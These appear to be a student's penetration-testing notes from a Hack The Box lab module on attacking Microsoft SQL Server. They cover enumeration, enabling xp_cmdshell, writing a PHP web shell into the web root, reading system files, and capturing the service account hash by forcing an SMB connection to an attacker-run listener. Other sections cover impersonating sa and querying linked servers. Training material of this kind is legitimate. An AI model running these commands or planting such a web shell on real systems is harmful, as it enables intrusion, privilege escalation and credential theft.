 
### Nmap
```
EmaadAbbasi@htb[/htb]$ sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.201.248
```

### Metasploit

```
auxiliary(scanner/mssql/mssql_ping
```

### Interaction

| **Command**                                     | **Description**                                          |
| ----------------------------------------------- | -------------------------------------------------------- |
| `mssqlclient.py <user>@<FQDN/IP> -windows-auth` | Log in to the MSSQL server using Windows authentication. |

![](https://academy.hackthebox.com/storage/modules/112/ssms.png)
Many other clients can be used to access a database running on MSSQL. Including but not limited to:

- mssql-cli
- SQL Server Powershell
- HeidiSQL
- SQLPro
- Impacket's mssqlclient.py

```cmd-session
C:\htb> sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30

Orbixio@htb[/htb]$ sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h
```

If we are targetting a local account, we can use `SERVERNAME\\accountname` or `.\\accountname`.

| Default System Database | Description                                                                                                                                                                                            |
| ----------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `master`                | Tracks all system information for an SQL server instance                                                                                                                                               |
| `model`                 | Template database that acts as a structure for every new database created. Any setting changed in the model database will be reflected in any new database created after changes to the model database |
| `msdb`                  | The SQL Server Agent uses this database to schedule jobs & alerts                                                                                                                                      |
| `tempdb`                | Stores temporary objects                                                                                                                                                                               |
| `resource`              | Read-only database containing system objects included with SQL server                                                                                                                                  |

`MSSQL` supports two [authentication modes](https://docs.microsoft.com/en-us/sql/connect/ado-net/sql/authentication-sql-server), which means that users can be created in Windows or the SQL Server:

| **Authentication Type**       | **Description**                                                                                                                                                                                                                                                                                                                           |
| ----------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Windows authentication mode` | This is the default, often referred to as `integrated` security because the SQL Server security model is tightly integrated with Windows/Active Directory. Specific Windows user and group accounts are trusted to log in to SQL Server. Windows users who have already been authenticated do not have to present additional credentials. |
| `Mixed mode`                  | Mixed mode supports authentication by Windows/Active Directory accounts and SQL Server. Username and password pairs are maintained within SQL Server.                                                                                                                                                                                     |


```cmd-session
SELECT name FROM master.dbo.sysdatabases

USE htbusers

SELECT table_name FROM htbusers.INFORMATION_SCHEMA.TABLES

SELECT * FROM users
```

### Execute Commands### 

```cmd-session
1> xp_cmdshell 'whoami'
```

```mssql
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```
There are other methods to get command execution, such as adding [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/adding-an-extended-stored-procedure-to-sql-server), [CLR Assemblies](https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integration), [SQL Server Agent Jobs](https://docs.microsoft.com/en-us/sql/ssms/agent/schedule-a-job?view=sql-server-ver15), and [external scripts](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql). However, besides those methods there are also additional functionalities that can be used like the `xp_regwrite` command that is used to elevate privileges by creating new entries in the Windows registry.

### Read and Write files### 
**Enable Ole Automation Procedures**
```cmd-session
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```
**Create file**
```cmd-session
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```
**Read file**
```cmd-session
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
```

### Capture MSSQL Service Hash### 

To make this work, we need first to start [Responder](https://github.com/lgandx/Responder) or [impacket-smbserver](https://github.com/SecureAuthCorp/impacket) 

```shell-session
Orbixio@htb[/htb]$ sudo responder -I tun0

Orbixio@htb[/htb]$ sudo impacket-smbserver share ./ -smb2support
```
Execute one of the following SQL queries:

```cmd-session
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'

1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
```

### Impersonate Existing Users with MSSQL### 

```cmd-session
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```
**Viewing Current User and Role**
```cmd-session
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```

As the returned value `0` indicates, we do not have the sysadmin role

```cmd-session
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```

**Note:** It's recommended to run `EXECUTE AS LOGIN` within the master DB, because all users, by default, have access to that database. If a user you are trying to impersonate doesn't have access to the DB you are connecting to it will present an error. Try to move to the master DB using `USE master`.


### Communicate with Other Databases with MSSQL### 

```cmd-session
1> SELECT srvname, isremote FROM sysservers
```
```cmd-session
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
```

**Note:** If we need to use quotes in our query to the linked server, we need to use single double quotes to escape the single quote. To run multiples commands at once we can divide them up with a semi colon (;).

```powershell-session
PS C:\htb>  Import-Module .\PowerUpSQL.ps1
PS C:\htb>  Get-SQLInstanceDomain
```